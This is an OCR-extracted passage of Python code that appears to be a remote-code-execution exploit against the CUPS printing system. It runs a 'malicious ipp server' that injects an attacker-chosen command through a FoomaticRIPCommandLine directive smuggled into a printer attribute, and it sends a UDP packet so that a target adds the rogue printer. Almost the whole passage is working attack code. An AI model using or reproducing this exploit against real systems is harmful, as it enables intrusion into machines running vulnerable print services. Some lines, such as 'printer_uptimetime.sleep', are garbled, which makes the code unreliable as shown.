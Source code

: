 ````
		(
			SectionEnum.printer,
			b'printer-privacy-policy-uri',
			TagEnum.uri
		): [b'https//www.google.com/%22%5Cn*FoomaticRIPCommandLine: "' + self.command.encode() + b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
	}
	attr.update(self.minimal_attributes())
	return attr

def operation_printer_list_response(self, req, _psfile):
	print("target connected, sending payload ...")
	attributes = self.printer_list_attributes()
	return IppRequest(
		self.version,
		StatusCodeEnum.ok,
		req.request_id,
		attributes
	)


def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
	print("sending udp packet to %s:%d ..." % (ip, port))

	printer_type = 0x00
	printer_state = 0x03
	printer_uri = 'http://%s:%d/printers/NAME' % (
		ipp_server_host, ipp_server_port
	)
	printer_location = 'Office HQ'
	printer_info = 'Printer'

	message = bytes('%x %x %s "%s" "%s"' % (
		printer_type,
		printer_state,
		printer_uri,
		printer_location,
		printer_info), 'UTF-8'
	)

	sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
	sock.sendto(message, (ip, port))


def wait_until_ctrl_c():
	try:
		while True:
		printer_uptimetime.sleep(300)
	except KeyboardInterrupt:
		return


def run_server(server):
	print('malicious ipp server listening on ', server.server_address)
	server_thread = threading.Thread(target=server.serve_forever)
	server_thread.daemon = True
	server_thread.start()
	wait_until_ctrl_c()
	server.shutdown()


if __name__ == "__main__":
	if len(sys.argv) != 3:
````